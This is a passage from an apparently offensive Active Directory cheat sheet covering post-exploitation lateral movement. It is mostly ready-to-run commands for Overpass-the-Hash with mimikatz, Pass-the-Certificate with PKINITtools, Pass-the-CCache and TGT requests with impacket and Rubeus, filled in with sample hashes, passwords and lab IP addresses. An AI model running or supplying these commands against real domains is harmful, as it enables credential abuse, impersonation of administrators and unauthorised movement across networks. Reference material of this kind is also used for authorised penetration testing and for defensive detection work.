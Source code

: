 ```powershell
# impacket
getTGT.py kiwi.local/range\$ -hashes :4cc0dd338664b4208fa6a1a4a7bee224 -dc-ip 192.168.86.189
```
3. Now you should be able to use the retrieved TGT to interact with the trusted forest.
# Lateral Movement / Post Exploitation
### Overpass-The-Hash (OPTH)
_Note: This requires local administrator privilege_
```css
# NTLM hash
mimikatz# sekurlsa::pth /user:administrator /ntlm:<ntlm hash> /domain:CONTOSO /run:powershell.exe

# AES256 key
mimikatz# sekurlsa::pth /user:administrator /aes256:<aes256 key> /domain:CONTOSO /run:powershell.exe
```

### Pass-The-Certificate
A certificate must be obtain in order to perform this technique either through [Shadow Credentials](#shadow-credentials) or [ESC8](#esc8)
```bash
# PKINITTools
python3 gettgtpkinit.py range.net/dc01\$ -pfx-base64 $(cat /tmp/b64-cert.b64) -dc-ip 192.168.86.182 /tmp/out.ccache
```

### Pass-The-CCache
1. Request a TGT from KDC. _Note that this can be done with multiple ways, this is just one of the methods_
```bash
getTGT.py range.net/rangeadm:Password123 -dc-ip 192.168.86.182
```
2. export ccache file path to `KRB5CCNAME` environment variable.
```bash
export KRB5CCNAME=rangeadm.ccache
```
3. Authenticate with the target object. 
```bash
smbclient.py range.net/rangeadm@dc01.range.net -k -no-pass
```

### Request TGT
_Note: This will be log by the KDC_
```bash
# With plain-text
Rubeus.exe asktgt /user:administrator /password:P@$$w0rd! /domain:contoso /ptt

# With RC4 hash
Rubeus.exe asktgt /user:administraot /rc4:<rc4-hash> /domain:contoso /ptt

# Linux
getTGT.py legitcorp.local/lowpriv:'P@$$w0rd' -dc-ip 192.168.86.170
export KRB5CCNAME=lowpriv.ccache
```
